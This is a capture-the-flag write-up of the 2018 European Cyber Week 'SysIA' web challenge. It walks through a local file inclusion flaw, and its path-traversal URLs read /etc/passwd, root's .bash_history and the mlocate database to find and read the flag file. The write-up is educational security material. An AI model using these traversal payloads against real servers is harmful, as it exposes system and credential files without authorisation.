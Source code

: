 ```yaml
---
weight: 4
title: "[European Cyber Week] - SysIA"
date: 2018-10-22T21:57:40+08:00
draft: false
author: "Maki"
authorLink: "https://www.maki.bzh"
description: ""
images: []
resources:
- name: "featured-image"
  src: "featured-image.png"

tags: ["ecw", "thales", "airbus", "web", "lfi", "updatedb"]
categories: ["Writeups"]

lightgallery: true
---
```


## State of the art

A nice cyber-hacker-haxxor-website-of-death containing a magical `robots.txt` file:

```
User-agent: *
Disallow: /notinterestingfile.php
```

## Local file include


![](/lib/images/writeups/2018_ecw/sysia/sysia_1.png)


Let's try something:

> https://web075-sysia.challenge-ecw.fr/notinterestingfile.php?page=../../../../../../../etc/passwd

```
root:x:0:0:root:/root:/bin/bash daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin bin:x:2:2:bin:/bin:/usr/sbin/nologin sys:x:3:3:sys:/dev:/usr/sbin/nologin sync:x:4:65534:sync:/bin:/bin/sync games:x:5:60:games:/usr/games:/usr/sbin/nologin man:x:6:12:man:/var/cache/man:/usr/sbin/nologin lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin mail:x:8:8:mail:/var/mail:/usr/sbin/nologin news:x:9:9:news:/var/spool/news:/usr/sbin/nologin uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin proxy:x:13:13:proxy:/bin:/usr/sbin/nologin www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin backup:x:34:34:backup:/var/backups:/usr/sbin/nologin list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false _apt:x:104:65534::/nonexistent:/bin/false
```

Ok, it works, there is only one user with a /bin/bash. I can't display any other web page via LFI, I think I'll try to display the `.bash_history`:

> https://web075-sysia.challenge-ecw.fr/notinterestingfile.php?page=../../../../../../../root/.bash_history

It worked (I will just put a snippet below because it's veeeeery long):

```
docker exec -it CTFd_NDH_2018 /bin/sh
ll
mkdir ndh
cd ndh/
locate flag.txt
updatedb
locate flag.txt
ll
nano Dockerfile
nano proxy.py
docker build . -n CTFd_ndh
```

## Flag location

Ok, he did an `updatedb`, so the location of `flag.txt` is stored in this database. The default path is: `/var/lib/mlocate/mlocate.db`

> https://web075-sysia.challenge-ecw.fr/notinterestingfile.php?page=../../../../../../../var/lib/mlocate/mlocate.db


![](/lib/images/writeups/2018_ecw/sysia/sysia_2.png)


## Flag

> https://web075-sysia.challenge-ecw.fr/notinterestingfile.php?page=../../../../../../../var/www/ECW/solution/web/lfi/flag.txt


![](/lib/images/writeups/2018_ecw/sysia/sysia_3.png)
